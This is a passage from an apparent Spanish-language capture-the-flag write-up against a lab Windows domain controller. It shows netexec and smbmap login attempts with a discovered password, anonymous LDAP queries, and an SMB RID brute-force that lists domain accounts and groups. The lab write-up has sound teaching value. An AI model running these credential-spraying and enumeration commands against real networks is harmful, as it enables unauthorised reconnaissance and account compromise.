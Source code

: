 Igualmente no tenemos permisos para poder conseguir una consola interactiva mediante WinRM, por lo cual como conclusión podemos saber que este usuario, si existe, no pertenece al grupo `Remote Management Users`
```console
$ nxc winrm 10.129.69.107 -u support -p 'Cicada$M6Corpb*@Lp#nZp!8'
WINRM       10.129.69.107   5985   CICADA-DC        [*] Windows Server 2022 Build 20348 (name:CICADA-DC) (domain:cicada.htb)
WINRM       10.129.69.107   5985   CICADA-DC        [-] cicada.htb\support:Cicada$M6Corpb*@Lp#nZp!8
```

Intentando enumerar SMB otra vez podemos ver que nos reporta un error de sesión, por lo cual quiero pensar que estas credenciales no son válidas y `netexec` ha dado un falso positivo ya que se admiten sesiones como invitados.
```console
$ smbmap -H 10.129.69.107 -u 'support' -p 'Cicada$M6Corpb*@Lp#nZp!8'
[+] Guest session       IP: 10.129.69.107:445   Name: CICADA-DC.cicada.htb                              
[!] Error:  (<class 'impacket.smbconnection.SessionError'>, 'smbmap', 1337)
```

# LDAP Enumeration
En este punto no tenemos una lista de usuarios pero si unas credenciales, por lo cual mi prioridad es conseguir usuarios válidos a nivel de dominio.

Podemos enumerar algo de información de forma anónima pero no encontramos nada interesante.
```console
$ ldapsearch -H ldap://cicada.htb/ -x -s base -b '' "(objectClass=*)" "*"
```

# RID Brute
Como tampoco podemos hacer nada a través de RPC, podemos intentar hacer un RID Brute a través de SMB para conseguir usuarios válidos.

```console
$ nxc smb 10.129.69.107 -u 'guest' -p '' --rid-brute 5000
SMB         10.129.69.107   445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
SMB         10.129.69.107   445    CICADA-DC        [+] cicada.htb\guest: 
SMB         10.129.69.107   445    CICADA-DC        498: CICADA\Enterprise Read-only Domain Controllers (SidTypeGroup)
SMB         10.129.69.107   445    CICADA-DC        500: CICADA\Administrator (SidTypeUser)
SMB         10.129.69.107   445    CICADA-DC        501: CICADA\Guest (SidTypeUser)
SMB         10.129.69.107   445    CICADA-DC        502: CICADA\krbtgt (SidTypeUser)
SMB         10.129.69.107   445    CICADA-DC        512: CICADA\Domain Admins (SidTypeGroup)
SMB         10.129.69.107   445    CICADA-DC        513: CICADA\Domain Users (SidTypeGroup)
SMB         10.129.69.107   445    CICADA-DC        514: CICADA\Domain Guests (SidTypeGroup)
SMB         10.129.69.107   445    CICADA-DC        515: CICADA\Domain Computers (SidTypeGroup)
SMB         10.129.69.107   445    CICADA-DC        516: CICADA\Domain Controllers (SidTypeGroup)
SMB         10.129.69.107   445    CICADA-DC        517: CICADA\Cert Publishers (SidTypeAlias)
SMB         10.129.69.107   445    CICADA-DC        518: CICADA\Schema Admins (SidTypeGroup)
SMB         10.129.69.107   445    CICADA-DC        519: CICADA\Enterprise Admins (SidTypeGroup)
SMB         10.129.69.107   445    CICADA-DC        520: CICADA\Group Policy Creator Owners (SidTypeGroup)
SMB         10.129.69.107   445    CICADA-DC        521: CICADA\Read-only Domain Controllers (SidTypeGroup)
SMB         10.129.69.107   445    CICADA-DC        522: CICADA\Cloneable Domain Controllers (SidTypeGroup)
SMB         10.129.69.107   445    CICADA-DC        525: CICADA\Protected Users (SidTypeGroup)
SMB         10.129.69.107   445    CICADA-DC        526: CICADA\Key Admins (SidTypeGroup)
SMB         10.129.69.107   445    CICADA-DC        527: CICADA\Enterprise Key Admins (SidTypeGroup)
SMB         10.129.69.107   445    CICADA-DC        553: CICADA\RAS and IAS Servers (SidTypeAlias)
SMB         10.129.69.107   445    CICADA-DC        571: CICADA\Allowed RODC Password Replication Group (SidTypeAlias)
```